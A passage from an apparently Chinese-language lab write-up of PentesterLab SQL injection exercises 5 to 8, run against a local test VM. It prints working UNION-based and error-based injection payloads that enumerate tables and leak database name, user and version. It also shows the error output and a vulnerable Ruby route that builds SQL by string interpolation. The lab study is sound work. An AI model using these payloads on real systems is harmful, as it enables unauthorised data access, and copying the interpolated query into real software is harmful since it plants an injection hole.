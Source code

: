 ```
id	name
1	user1
2	user2
3	user3
4	user4
5	hacker
```

## example 5
这回是在limit后面，稍微测试了下发现啥都没过滤，说明上面的payload可以直接拿过来用，数据库权限比较大，所有题目都能看到
```
?limit=5 union select table_name,2,3 from information_schema.tables where table_schema = 'sqlinjection_example5'
```
没什么可说的

## example6
这次在group by后面，看是还是没有任何过滤，所有payload还是不变。。。
```
group=id union select table_name,2,3 from information_schema.tables where table_schema = 'sqlinjection_example6'
```

## example7
一脸懵比，回显想不明白，而且一定要查询出来user才行，不然会报错
```
http://192.168.157.129/sqlinjection/example7/?id=47

Should only return one user... 
```
说明不是正常的注入了，发现显错没关，那试试显错注入吧。

```
id=12+and+1=2+UNION+SELECT+1+FROM+(select+count(*),concat(floor(rand(0)*2),(select+concat(0x5f,database(),0x5f,user(),0x5f,version())))a+from+information_schema.tables+group+by+a)b--
```
这个是之前研究时候用的显错注入的payload，拖过来发现可以直接用。

[http://lorexxar.cn/2015/11/19/sql-error/#more](http://lorexxar.cn/2015/11/19/sql-error/#more)
```
Mysql2::Error: Duplicate entry '1_sqlinjection_example6_pentesterlab@localhost_5.1.66-0+squeeze1' for key 'group_key': SELECT * FROM users WHERE id=12 and 1=2 UNION SELECT 1 FROM (select count(*),concat(floor(rand(0)*2),(select concat(0x5f,database(),0x5f,user(),0x5f,version())))a from information_schema.tables group by a)b-- 
```
一目了然

## example8
打开爆了500，这回真的是一脸懵比，赶快去看看源码
```
get "/users/:id" do
    ActiveRecord::Base.establish_connection SQLInjectionExample8.db
    @user = User.find(params[:id])
    if @user    
      begin 
        sql = "SELECT * FROM users WHERE username='#{@user.username}' "
        @res = ActiveRecord::Base.connection.execute(sql).to_a[0]
        erb :user
      rescue Exception => e
        @message = e.to_s
      end
    end  
  end
```